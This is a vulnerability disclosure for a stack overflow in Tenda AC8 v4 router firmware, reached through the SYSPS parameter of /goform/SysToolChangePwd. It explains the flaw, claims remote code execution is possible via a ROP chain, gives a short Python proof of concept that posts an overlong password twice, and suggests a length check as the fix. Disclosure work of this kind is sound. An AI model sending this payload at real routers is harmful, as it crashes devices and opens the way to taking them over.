

## Affected Version
* Tenda AC8 v4 US_AC8V4.0si_V16.03.34.06_cn
* Tenda AC8 v4 US_AC8V4.0si_V16.03.34.09_cn

## Vulnerability Description
Tenda AC8 v4 US_AC8V4.0si_V16.03.34.06_cn and Tenda AC8 v4 US_AC8V4.0si_V16.03.34.09_cn was discovered to contain a stack overflow via parameter SYSPS at url **/goform/SysToolChangePwd**.Through this stack overflow and a carefully constructed ROP chain, RCE can be achieved.

## Vulnerability Details
The premise of the attack is to know the value of sys.userpass or to crack the value of sys.userpass

make the values ​​of v3 and v6 are the same, the values ​​of v4 and v5 are the same, and the values ​​of v3 and v4 are different. **In this way, the function SetValue("sys.userpass", v4); will be called to make the value of sys.userpass a very long string. When the page is visited again, GetValue("sys.userpass", v6); will cause a stack overflow through v6.**


* exp

```python
import sys
import requests

payload = b'A'*0x200

#you should know the value of sys.userpass in advance, or blast it out
userpass="userpass"
url = f"http://192.168.50.100/goform/SysToolChangePwd"
data = {
    "SYSOPS": userpass,
    "SYSPS": payload,
    "SYSPS2": payload
}
requests.post(url=url, data=data)
requests.post(url=url, data=data)

```

## Any suggested solutions to fix
check password length before saving
